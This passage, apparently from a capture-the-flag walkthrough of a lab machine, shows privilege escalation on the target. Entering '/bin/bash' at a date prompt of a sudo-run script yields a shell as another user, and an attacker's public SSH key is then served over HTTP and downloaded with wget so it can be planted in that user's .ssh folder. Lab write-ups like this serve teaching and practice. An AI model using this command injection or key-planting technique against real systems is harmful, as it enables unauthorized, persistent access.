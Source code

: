 We can inject a command to get a shell as `gyles` when running this script :  
```
dale@TEAM:~$ sudo -u gyles /home/gyles/admin_checks
Reading stats.
Reading stats..
Enter name of person backing up the data: test
Enter 'date' to timestamp the file: /bin/bash
The Date is whoami
gyles
id
uid=1001(gyles) gid=1001(gyles) groups=1001(gyles),1003(editors),1004(admin)
```

Now we have a shell as `gyles`. We can get a better shell by logging in on SSH. We have to write our own SSH public key in `/home/gyles/.ssh/`. So first, let's generate a key pair :  
```
attacker@AttackBox:~/Team$ ssh-keygen -f gyles_rsa
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in gyles_rsa
Your public key has been saved in gyles_rsa.pub
The key fingerprint is:
SHA256:ZEm3NYDlrE5zUoxCJNOBrTWsLgcMrgrczmfB4DINK54 attacker@AttackBox
The key's randomart image is:
+---[RSA 3072]----+
|    o*+..o+.o    |
|.   .+*..B o .   |
|.o   +..= *      |
| oo.o  + o       |
|o *oo   S .      |
|+=.+oo o +       |
|= *o  . .        |
|.E o o           |
|    o            |
+----[SHA256]-----+
```

Then, we can start a web server using python :  
```
attacker@AttackBox:~/Team$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

Now, let's download the public key we created to the target :  
```
cd /home/gyles/.ssh
pwd  
/home/gyles/.ssh
wget http://10.14.32.60:8080/gyles_rsa.pub
ls
gyles_rsa.pub  known_hosts
```
